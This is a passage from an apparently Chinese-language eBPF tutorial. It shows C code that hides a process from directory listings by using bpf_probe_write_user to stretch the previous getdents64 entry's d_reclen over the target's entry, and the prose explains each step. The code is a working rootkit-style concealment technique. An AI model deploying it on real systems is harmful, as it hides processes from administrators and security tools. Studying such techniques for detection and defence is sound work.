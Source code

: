 ```c
    short unsigned int d_reclen_previous = 0;
    bpf_probe_read_user(&d_reclen_previous, sizeof(d_reclen_previous), &dirp_previous->d_reclen);

    struct linux_dirent64 *dirp = (struct linux_dirent64 *)(buff_addr+d_reclen_previous);
    short unsigned int d_reclen = 0;
    bpf_probe_read_user(&d_reclen, sizeof(d_reclen), &dirp->d_reclen);

    // Debug print
    char filename[max_pid_len];
    bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp_previous->d_name);
    filename[pid_to_hide_len-1] = 0x00;
    bpf_printk("[PID_HIDE] filename previous %s\n", filename);
    bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp->d_name);
    filename[pid_to_hide_len-1] = 0x00;
    bpf_printk("[PID_HIDE] filename next one %s\n", filename);

    // Attempt to overwrite
    short unsigned int d_reclen_new = d_reclen_previous + d_reclen;
    long ret = bpf_probe_write_user(&dirp_previous->d_reclen, &d_reclen_new, sizeof(d_reclen_new));

    // Send an event
    struct event *e;
    e = bpf_ringbuf_reserve(&rb, sizeof(*e), 0);
    if (e) {
        e->success = (ret == 0);
        e->pid = (pid_tgid >> 32);
        bpf_get_current_comm(&e->comm, sizeof(e->comm));
        bpf_ringbuf_submit(e, 0);
    }

    bpf_map_delete_elem(&map_to_patch, &pid_tgid);
    return 0;
}

```

在 `handle_getdents_patch` 函数中，我们首先检查我们是否已经找到了我们想要隐藏的进程的 PID。然后我们读取目录项的内容，并且修改 `d_reclen` 字段，让它覆盖下一个目录项，这样就可以隐藏我们的目标进程了。

在这个过程中，我们用到了 `bpf_probe_read_user`、`bpf_probe_read_user_str`、`bpf_probe_write_user` 这几个函数来读取和写入用户空间的数据。这是因为在内核空间，我们不能直接访问用户空间的数据，必须使用这些特殊的函数。

在我们完成隐藏操作后，我们会向一个名为 `rb` 的环形缓冲区发送一个事件，表示我们已经成功地隐藏了一个进程。我们用 `bpf_ringbuf_reserve` 函数来预留缓冲区空间，然后将事件的数据填充到这个空间，并最后用 `bpf_ringbuf_submit` 函数将事件提交到缓冲区。

最后，我们清理了之前保存在 map 中的数据，并返回。

这段代码是在 eBPF 环境下实现进程隐藏的一个很好的例子。通过这个例子，我们可以看到 eBPF 提供的丰富的功能，如系统调用跟踪、map 存储、用户空间数据访问、尾调用等。这些功能使得我们能够在内核空间实现复杂的逻辑，而不需要修改内核代码。

## 用户态 eBPF 程序实现

我们在用户态的 eBPF 程序中主要进行了以下几个操作：
